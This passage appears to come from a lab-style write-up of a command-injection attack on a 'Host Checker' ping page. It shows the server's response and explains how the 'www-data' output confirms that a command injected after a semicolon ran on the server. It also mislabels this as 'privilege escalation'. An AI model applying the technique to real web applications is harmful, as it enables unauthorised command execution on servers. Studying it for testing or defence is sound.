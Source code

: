 
## Successful Exploitation

### Response Analysis

**Successful Injection Response:**
```html
HTTP/1.1 200 OK
Date: Wed, 15 Feb 2023 10:30:00 GMT
Server: Apache/2.4.41
Content-Type: text/html; charset=UTF-8
Content-Length: 1337

<!DOCTYPE html>
<html>
<head>
    <title>Host Checker Results</title>
</head>
<body>
    <div class="results">
        <h2>Ping Results:</h2>
        <pre>
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.074 ms

--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.074/0.074/0.074/0.000 ms
www-data
        </pre>
    </div>
</body>
</html>
```

**Key Indicators of Success:**
- ✅ **Ping output displayed** - Original functionality preserved
- ✅ **Injected command output** - `www-data` appears after ping results
- ✅ **Both commands executed** - Semicolon separator worked correctly
- ✅ **Server-side execution** - Command ran with web server privileges

### Exploitation Confirmation

**Evidence of Successful Injection:**

**1. Command Output Structure:**
```
[Original ping command output]
[Injected command output: www-data]
```

**2. Execution Context:**
```bash
# Injected command result
www-data

# Indicates:
# - Command executed on server
# - Running as www-data user (web server)
# - Linux/Unix environment
# - Successful privilege escalation from browser to server
```
